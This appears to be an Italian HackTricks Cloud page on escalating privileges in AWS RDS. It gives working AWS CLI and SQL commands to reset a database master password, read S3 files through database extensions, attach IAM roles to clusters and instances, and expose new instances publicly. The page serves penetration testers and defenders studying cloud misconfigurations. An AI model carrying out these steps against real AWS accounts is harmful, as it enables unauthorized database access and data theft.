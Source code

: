 # AWS - RDS Privesc

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDS - Relational Database Service

Per ulteriori informazioni su RDS, controlla:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Con tale permesso, un attaccante può **modificare la password dell'utente principale** e l'accesso all'interno del database:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Dovrai essere in grado di **contattare il database** (di solito sono accessibili solo da reti interne).
{% endhint %}

**Impatto potenziale:** Trovare informazioni sensibili all'interno dei database.

### rds-db:connect

Secondo la [**documentazione**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un utente con questa autorizzazione potrebbe connettersi all'istanza del database.

### Sfruttare le autorizzazioni IAM del ruolo RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Se eseguendo **`SELECT datname FROM pg_database;`** trovi un database chiamato **`rdsadmin`**, sai di essere all'interno di un **database AWS postgresql**.
{% endhint %}

Innanzitutto, puoi verificare se questo database è stato utilizzato per accedere ad altri servizi AWS. Puoi controllare questo guardando le estensioni installate:
```sql
SELECT * FROM pg_extension;
```
Se trovi qualcosa come **`aws_s3`** puoi assumere che questo database abbia **un certo tipo di accesso a S3** (ci sono altre estensioni come **`aws_ml`** e **`aws_lambda`**).

Inoltre, se hai le autorizzazioni per eseguire **`aws rds describe-db-clusters`** puoi vedere se il **cluster ha un IAM Role associato** nel campo **`AssociatedRoles`**. Se ce n'è uno, puoi assumere che il database sia stato **preparato per accedere ad altri servizi AWS**. In base al **nome del ruolo** (o se puoi ottenere le **autorizzazioni** del ruolo) potresti **indovinare** quali ulteriori accessi ha il database.

Ora, per **leggere un file all'interno di un bucket** devi conoscere il percorso completo. Puoi leggerlo con:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Se avessi **credenziali AWS raw**, potresti utilizzarle anche per accedere ai dati di S3 con:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **non ha bisogno di modificare alcuna variabile del gruppo di parametri** per poter accedere a S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
All'interno di un mysql, se esegui la query **`SELECT User, Host FROM mysql.user;`** e c'è un utente chiamato **`rdsadmin`**, puoi assumere di essere all'interno di un **AWS RDS mysql db**.
{% endhint %}

All'interno del mysql esegui **`show variables;`** e se le variabili come **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** hanno dei valori, puoi assumere che il database sia preparato per accedere ai dati di S3.

Inoltre, se hai le autorizzazioni per eseguire **`aws rds describe-db-clusters`** puoi verificare se il cluster ha un **ruolo associato**, il che di solito significa accesso ai servizi AWS).

Ora, per **leggere un file all'interno di un bucket** devi conoscere il percorso completo. Puoi leggerlo con:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un attaccante con i permessi `rds:AddRoleToDBCluster` e `iam:PassRole` può **aggiungere un ruolo specifico a un'istanza RDS esistente**. Ciò potrebbe consentire all'attaccante di **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potenziale Impatto**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.\
Si noti che alcuni DB richiedono configurazioni aggiuntive come Mysql, che deve specificare l'ARN del ruolo nei gruppi di parametri anche.

### `rds:CreateDBInstance`

Solo con questa autorizzazione, un attaccante potrebbe creare una **nuova istanza all'interno di un cluster** che esiste già e ha un **ruolo IAM** allegato. Non sarà in grado di cambiare la password dell'utente principale, ma potrebbe essere in grado di esporre la nuova istanza del database su Internet:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaccante con i permessi `rds:CreateDBInstance` e `iam:PassRole` può **creare una nuova istanza RDS con un ruolo specificato allegato**. L'attaccante può quindi potenzialmente **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.

{% hint style="warning" %}
Alcuni requisiti del ruolo/profilo-istanza da allegare (da [**qui**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Il profilo deve esistere nel tuo account.
* Il profilo deve avere un ruolo IAM che Amazon EC2 ha i permessi di assumere.
* Il nome del profilo dell'istanza e il nome del ruolo IAM associato devono iniziare con il prefisso `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impatto potenziale**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un attaccante con i permessi `rds:AddRoleToDBInstance` e `iam:PassRole` può **aggiungere un ruolo specificato a un'istanza RDS esistente**. Ciò potrebbe consentire all'attaccante di **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.

{% hint style="warning" %}
L'istanza del database deve essere al di fuori di un cluster per questo.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potenziale impatto**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

